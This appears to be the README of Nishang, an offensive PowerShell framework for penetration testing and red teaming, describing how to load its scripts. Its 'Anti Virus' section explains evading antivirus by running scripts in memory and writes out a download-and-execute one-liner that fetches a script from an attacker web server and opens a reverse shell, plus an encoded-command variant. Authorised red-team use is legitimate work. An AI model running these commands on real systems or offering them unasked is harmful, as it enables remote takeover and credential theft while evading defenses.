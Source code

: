 # Nishang

### Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.
By [nikhil_mitt](https://twitter.com/nikhil_mitt)

#### Usage

Import all the scripts in the current PowerShell session (PowerShell v3 onwards).

```powershell
PS C:\nishang> Import-Module .\nishang.psm1
```

Use the individual scripts with dot sourcing.

```powershell
PS C:\nishang> . C:\nishang\Gather\Get-Information.ps1

PS C:\nishang> Get-Information
```

To get help about any script or function, use:

```powershell
PS C:\nishang> Get-Help [scriptname] -full
```

Note that the help is available for the function loaded after running the script and not the script itself since version 0.3.8. In all cases, the function name is same as the script name.

For example, to see the help about Get-WLAN-Keys.ps1, use

```powershell
PS C:\nishang> . C:\nishang\Get-WLAN-Keys.ps1

PS C:\nishang> Get-Help Get-WLAN-Keys -Full
```

#### Anti Virus
Nishang scripts are flagged by many Anti Viruses as malicious. The scrripts on a target are meant to be used in memory which is very easy to do with PowerShell. Two basic methods to execute PowerShell scripts in memory:

Method 1. Use the in-memory dowload and execute:
Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

Method 2. Use the `-encodedcommand` (or `-e`) parameter of PowerShell
All the scripts in Nishang export a function with same name in the current PowerShell session. Therefore, make sure the function call is made in the script itself while using encodedcommand parameter from a non-PowerShell shell. For above example, add a function call (without quotes) `"Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]"`.
